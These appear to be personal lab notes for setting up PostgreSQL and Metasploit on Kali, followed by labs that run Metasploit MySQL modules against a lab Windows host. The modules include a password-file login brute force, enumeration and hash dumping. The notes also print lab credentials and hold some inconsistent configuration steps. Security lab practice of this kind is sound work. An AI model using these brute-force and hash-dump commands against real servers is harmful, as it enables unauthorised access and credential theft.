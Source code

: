 # Section 1: 

- Start PostgreSQL:
  ```bash
  sudo /etc/init.d/postgresql start
  ```
  - Reinstall PostgreSQL if necessary (due to missing database.yml in the directory /usr/share/metasploit-framework/config/database.yml):
    ```bash
    sudo apt install postgresql postgresql
    ```
  - Enable and restart PostgreSQL:
    ```bash
    sudo systemctl enable postgresql
    sudo systemctl restart postgresql
    ```
  - Verify PostgreSQL status:
    ```bash
    sudo systemctl status postgresql
    ```
  - Switch to postgres user and access PostgreSQL:
    ```bash
    sudo su - postgres
    psql -p 5433
    \du   # Check if 'postgres' user exists and is a superuser
    alter user postgres with password 'admin@123';
    \l   # Check for a database named 'postgres'
    
- Start Metasploit
   ```bash
    /etc/init.d/metasploit start # (old method, won't work)
    ```
  - Instead, install Metasploit Framework:
    ```bash
    sudo apt install metasploit-framework
    ```
  -  if **sudo systemctl start metasploit** work do not do the following comands else do this:
      - Verify Metasploit paths:
        ```bash
        which msfconsole
        locate metasploit-framework
        ```
     - Adjust Metasploit service configuration if paths differ:
       ```bash
       sudo nano /etc/systemd/system/metasploit.service
       ```
      <pre>
      ```
      [Unit]
      Description=Metasploit Framework
      After=network.target
      [Service]
      Type=simple
      ExecStart=/usr/local/bin/msfconsole
      User=root
      WorkingDirectory=/usr/local/share/metasploit-framework
      [Install]
      WantedBy=multi-user.target
      ```
      </pre>


bash
Copy code
sudo systemctl start metasploit
sudo systemctl status metasploit
Lab 3: SQL Injection with Metasploit
Start Metasploit console and wait for initialization:

bash
Copy code
msfconsole
Check database connection status:

bash
Copy code
db_status
If not connected, configure database connection:

bash
Copy code
db_connect –y /usr/share/metasploit-framework/config/database.yml
Resolve PostgreSQL configuration issues if encountered:

bash
Copy code
sudo nano /etc/postgresql/14/main/postgresql.conf
# Uncomment and adjust lines like:
# listen_addresses = 'localhost'
log_timezone = 'UTC'
TimeZone = 'UTC'

sudo nano /etc/postgresql/14/main/pg_hba.conf
# Ensure lines like:
# local all postgres peer
# local all all peer
# host all all 127.0.0.1/32 md5
Restart PostgreSQL:

bash
Copy code
sudo systemctl restart postgresql
Update Metasploit database configuration:

bash
Copy code
sudo nano /usr/share/metasploit-framework/config/database.yml
Example configuration:

yaml
Copy code
development:
  adapter: postgresql
  database: msf6
  username: msf6
  password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
  host: localhost
  port: 5432
  pool: 5
  timeout: 5
production:
  adapter: postgresql
  database: msf6
  username: msf6
  password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
  host: localhost
  port: 5432
  pool: 5
  timeout: 5
Create PostgreSQL database and user for Metasploit:

bash
Copy code
sudo su - postgres
psql -p 5433
CREATE DATABASE msf6;
CREATE USER msf6 WITH PASSWORD 'RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=';
GRANT ALL PRIVILEGES ON DATABASE msf6 TO msf6;
Restart PostgreSQL and Metasploit:

bash
Copy code
sudo systemctl restart postgresql
sudo systemctl restart metasploit
Reconnect to Metasploit console and continue:

bash
Copy code
msfconsole
db_connect –y /usr/share/metasploit-framework/config/database.yml
Example commands inside Metasploit console:

bash
Copy code
use auxiliary/scanner/mysql/mysql_version
Lab 4: SQL Injection on Windows Server
Install MySQL server on Windows Server.

Open terminal and connect to MySQL:

bash
Copy code
mysql -u root -p
Set up MySQL users and permissions:

sql
Copy code
CREATE USER 'msf6'@'192.168.43.93' IDENTIFIED BY 'mounaMYSQL19';
GRANT ALL PRIVILEGES ON *.* TO 'msf6'@'192.168.43.93';
CREATE USER 'root'@'192.168.43.93' IDENTIFIED BY 'mounaMYSQL19';
GRANT ALL PRIVILEGES ON *.* TO 'root'@'192.168.43.93';
FLUSH PRIVILEGES;
Back to Kali, execute Metasploit commands:

bash
Copy code
msf6 auxiliary(scanner/mysql/mysql_version)
set RHOSTS 192.168.43.189
run

use auxiliary/scanner/mysql/mysql_login
set RHOSTS 192.168.43.189
set USERNAME root
set PASS_FILE /mouna19/passwords.txt
run
Additional Metasploit MySQL enumeration:

bash
Copy code
use auxiliary/admin/mysql/mysql_enum
set RHOSTS 192.168.43.189
set USERNAME root
set PASSWORD mounaMYSQL19
run

use auxiliary/scanner/mysql/mysql_hashdump
set RHOSTS 192.168.43.189
set USERNAME root
set PASSWORD mounaMYSQL19
run
Open another terminal window in Kali for MySQL console access:

bash
Copy code
mysql -u root -p -h 192.168.43.189
Enter the password (e.g., mounamySQL19) to access MySQL console.
